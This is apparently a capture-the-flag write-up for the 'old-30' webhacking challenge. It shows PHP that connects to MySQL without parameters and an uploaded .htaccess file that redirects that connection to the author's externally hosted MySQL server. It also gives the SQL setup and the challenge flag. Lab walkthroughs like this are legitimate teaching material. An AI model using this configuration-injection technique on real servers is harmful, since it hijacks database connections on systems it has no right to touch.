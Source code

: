```yaml
---
layout: default
title: old-30
---
```


# Webhacking old-30 Solution

Here we can see it tries to connect to a mySQL server, but doesn't supply parameters to the `mysqli_connect` function:

```php
<?php
  if($_GET['view_source']) highlight_file(__FILE__);
  $db = mysqli_connect() or die();
  mysqli_select_db($db,"chall30") or die();
  $result = mysqli_fetch_array(mysqli_query($db,"select flag from chall30_answer")) or die();
  if($result[0]){
    include "/flag";
  }
?>
```

## Configuration Injection

So, according to [default config files location](https://www.php.net/manual/en/configuration.changes.modes.php), so, we can upload our own `.htaccess` file, and there set the default mySQL server.

Our `.htaccess` file, fill the fields with your credentials:
```
php_value mysqli.default_port "...."
php_value mysqli.default_host "...."
php_value mysqli.default_user "...."
php_value mysqli.default_pw "...."
```

## Setting our MySQL server

I used this free website [Free My SQL server hosting](https://console.aiven.io/), after creating my free service, i connected to my SQL server:
`mysql --user username --password=password --host yoursubdomain.aivencloud.com --port ????? defaultdb`

Then, in the command line i ran those commands:

```
Create DATABASE chall30;
use chall30;

Create TABLE chall30_answer (flag VARCHAR(30) PRIMARY KEY);
Insert into chall30_answer (flag) VALUES ('hello world!');
select * from chall30_answer;   ### checking

### changing from "caching_sha2_password" to "mysql_native_password"

use mysql
ALTER USER 'username'@'%' IDENTIFIED WITH mysql_native_password BY 'password';
select user,plugin from user;   ### checking
```

![FLAG](./images/old-30.png)

**Flag:** ***`FLAG{uhoh-db-connection-hijacking?}`*** 



